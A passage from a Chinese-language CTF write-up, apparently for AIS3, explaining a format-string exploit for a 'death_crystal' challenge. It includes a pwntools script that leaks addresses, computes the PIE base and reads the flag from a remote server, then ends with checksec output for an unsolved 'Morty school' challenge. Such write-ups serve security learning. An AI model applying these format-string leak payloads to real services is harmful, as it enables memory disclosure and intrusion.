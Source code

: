 由於採用 little endian 並且重定位的最高位元可能為 0 ，為 null 字元代表會被中斷，所以地址需要放置在最後面再存取，這時不再是第六個參數，找到第 10 個參數位置是乎恰當並且編寫 payload。

``` python
#!/usr/bin/env python
from pwn import *
import pwnlib.elf
import pwnlib.shellcraft

context.terminal = ['alacritty', '-e', 'sh', '-c']

c = remote('60.250.197.227', 10004)
#c = process('./death_crystal-patch')
e = ELF('./death_crystal-patch')


#init
context.os='linux'
context.arch='amd64'
#context.log_level ='debug'
#gdb.attach(c)

# 00100b20 41 57           PUSH       R15
ans = b'%lx' * 12
c.sendline(ans)
c.recvuntil('Foresee:\n', drop=True)
text_addr = int(c.recvline()[-15:], 16) - 0x0100b20
print(hex(text_addr))
flag_addr = 0x0302060 + text_addr

print(hex(flag_addr))

# make address
stack_dump = b'%lx' * (5 + 4) + b'%s'
ans = stack_dump.ljust(8 * (4), b'x') + p64(flag_addr)
c.sendline(ans)

c.interactive()
c.close()
```

稍微整理一下回傳內容得到 flag

``` plaintext
AIS3{FOrM@T_5TRin6_15_$o0o_pOw3rFul_And_eAsY}
```

### Morty school [未解開]

``` plaintext
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
